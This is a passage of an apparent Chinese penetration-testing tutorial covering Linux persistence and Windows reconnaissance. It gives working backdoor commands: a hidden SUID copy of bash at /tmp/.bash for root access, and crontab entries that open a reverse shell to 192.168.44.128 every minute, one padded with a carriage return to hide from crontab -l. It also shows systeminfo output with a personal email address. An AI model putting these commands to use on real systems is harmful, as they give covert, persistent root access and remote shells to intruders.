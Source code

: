 ![img](https:////upload-images.jianshu.io/upload_images/8628147-5138cb9af3d0d15e?imageMogr2/auto-orient/strip|imageView2/2/w/813/format/webp)

在cmder中连接ssh，输入任意密码，成功登录。

![img](https:////upload-images.jianshu.io/upload_images/8628147-d767d6470f37c9a5?imageMogr2/auto-orient/strip|imageView2/2/w/813/format/webp)

## 10. SUID权限维持

### 10.1 原理

主要原理是通过以ROOT的身份对`/bin/bash`赋予SUID权限，当我们使用普通用户的身份来获取`shell`的时候就可以成功拿到root权限

### 10.2 提权

```bash
# 查找 /bin/bash 文件
root@ubuntusrv1604:/home/lonelyor# whereis /bin/bash
bash: /bin/bash /etc/bash.bashrc /usr/share/man/man1/bash.1.gz
root@ubuntusrv1604:/home/lonelyor# cp /bin/bash /tmp/.bash
# 为该文件赋予 SUID 和读取、执行权限
root@ubuntusrv1604:/home/lonelyor# chmod 4755 /tmp/.bash
root@ubuntusrv1604:/home/lonelyor# su lonelyor
lonelyor@ubuntusrv1604:~$ /tmp/.bash -p
.bash-4.3# whoami
root
```

## 11.  任务计划后门

### 11.1 原理

使用计划任务周期性的回弹shell

```
crontab -l | { cat; echo "*/1 * * * * bash -i >& /dev/tcp/192.168.44.128/2333 0>&1"; } | crontab -
#使用crontab -l 或cat时有隐藏效果
(crontab -l;printf "*/1 * * * * bash -i >& /dev/tcp/192.168.44.128/5555 0>&1;\rno crontab for `whoami`%100c\n")|crontab -
```

# 第五章：信息搜集技术

## 1. Windows信息搜集

### 1.1 主机信息搜集

查看操作系统的详细信息（包括补丁信息）

```bash
C:\Users\19374>systeminfo

Host Name:                 WEIJAY_HOST
OS Name:                   Microsoft Windows 11 专业版
OS Version:                10.0.22621 N/A Build 22621
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          1937488091@qq.com
Registered Organization:
Product ID:                00331-20020-00000-AA351
Original Install Date:     2023/5/8, 17:22:48
System Boot Time:          2023/10/22, 15:57:06
System Manufacturer:       MECHREVO
```